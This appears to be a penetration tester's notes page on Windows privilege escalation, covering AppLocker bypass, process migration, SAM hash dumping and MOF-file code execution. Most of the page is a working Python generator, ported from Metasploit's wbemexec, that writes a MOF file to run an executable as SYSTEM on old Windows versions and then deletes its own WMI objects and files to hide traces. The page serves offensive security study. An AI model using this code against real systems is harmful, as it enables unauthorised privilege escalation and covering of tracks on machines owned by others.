 # Privilege Escalation

## Applocker

> AppLocker advances the app control features and functionality of Software Restriction Policies. AppLocker contains new capabilities and extensions that allow you to create rules to allow or deny apps from running based on unique identities of files and to specify which users or groups can run those apps.

Source: [What Is AppLocker?](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)

Despite the power this gives the Administrator in locking down what users can and can't execute, there are a disturbing number of ways to bypass this.  [Ultimate Applocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) aims to record most of them.

## Process Migration

There can be a number of valid reasons to migrate processes, notably from 32-bit to 64-bit.  The reason is that certain exploits can only be executed from a 64-bit process, or there can be a want to view the 64-bit registry.

```bash
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

## SAM File

```bash
root@kali:/tmp# samdump2 System SAM
Administrator:500:REDACTED:REDACTED:::
*disabled* Guest:501:REDACTED:REDACTED:::
*disabled* HelpAssistant:1000:REDACTED:REDACTED:::
*disabled* SUPPORT_388945a0:1002:REDACTED:REDACTED:::
```

## MOF Files

These are useful in the event of an arbitrary read/write on the file system as a SYSTEM User.  For this to work the OS must be XP or lower.  In effect, a MOF file written to `%SystemRoot%\System32\wbem\mof\`, will be compiled automatically by the OS, and allows arbitrary code execution.  A good overview of MOF files themselves is [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html).

Below is a python version of metasploit's [wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb) for executing a file in the System32 folder.

```python
def genMof(mofName, exe):
    classname = str(randint(0, 9999))
    mof = """#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass{class}
{
      [key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
     [key] string Name;
      [not_null] string ScriptingEngine;
      string ScriptFileName;
      [template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"{exename}\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass{class}\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
};
Instance of ActiveScriptEventConsumer as $cons2
{
  Name = "qndASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\nvar objfs = new ActiveXObject(\\"Scripting.FileSystemObject\\");\\ntry {var f1 = objfs.GetFile(\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\{mofname}\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\"{exename}\\");\\nf2.Delete(true);\\nvar s = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");s.Delete(\\"__EventFilter.Name='qndfilt'\\");s.Delete(\\"ActiveScriptEventConsumer.Name='qndASEC'\\");\\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass{class}\\"";
  QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
  Name = "qndfilt";
  Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\"Win32_Process\\" AND TargetInstance.Name = \\"{exename}\\"";
  QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
  Consumer = $cons2;
  Filter = $Filt2;
};
instance of MyClass{class} as $MyClass
{
  Name = "ClassConsumer";
};"""
    mof = sub('{class}', classname, mof)
    mof = sub('{exename}', exe, mof)
    mof = sub('{mofname}', mofName, mof)
    return mof
```

#### References

[Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)  
[How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)  
[https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb)



